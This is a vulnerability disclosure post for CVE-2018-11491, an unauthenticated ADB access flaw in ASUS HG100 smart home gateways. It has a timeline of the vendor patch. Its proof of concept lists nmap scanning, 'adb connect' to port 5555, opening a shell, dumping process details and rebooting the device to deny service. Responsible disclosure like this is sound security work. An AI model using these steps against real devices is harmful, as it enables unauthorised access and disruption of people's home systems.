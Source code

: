 ```yaml
---
layout: post
title:  "CVE-2018-11491"
subtitle: "ASUS HG100 exists unauthenticated access vulnerability"
author: Mars Cheng
tags: 
- CVE
- ASUS
- NCCST
---
```


>Description: ASUS HG100 devices with firmware before 1.05.12 allow unauthenticated access, leading to remote command execution.

>This vulnerability was discovered by Mars Cheng at **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---

## Introduction ASUS HG100 SmartHome GateWay
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## Proof of Concept



### 1.Confirm IP

```
nmap --scanflags SYN 192.168.0.0/24
```
* Port 5555 open
<div style="text-align: center">
<img src="https://i.imgur.com/c4c7kwM.png"/>
</div>

### 2.Connect port 5555 with ADB
```
adb connect 192.168.0.100
```

<div style="text-align: center">
<img src="https://i.imgur.com/JM7pymJ.png"/>
</div>


```
adb shell
```

<div style="text-align: center">
<img src="https://i.imgur.com/8ur8l5p.png"/>
</div>


```
id
```

<div style="text-align: center">
<img src="https://i.imgur.com/RoryPJv.png"/>
</div>

```
dumpstate
```

* Show system process detail

<div style="text-align: center">
<img src="https://i.imgur.com/8QscCma.png"/>
</div>

### 3.Reboot device and Denial of Service 

```
reboot
```

<div style="text-align: center">
<img src="https://i.imgur.com/qnuaiFg.png"/>
</div>

* Check device status

<div style="text-align: center">
<img src="https://i.imgur.com/za4z9be.png"/>
</div>

### Timeline
*  February 6, 2018 Reported to ASUS Security
*  July 3, 2018 Patch released 


### Reference
[1] <https://www.asus.com/tw/News/qnEosWKPVDpmOeqL> <br>
[2] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11491>
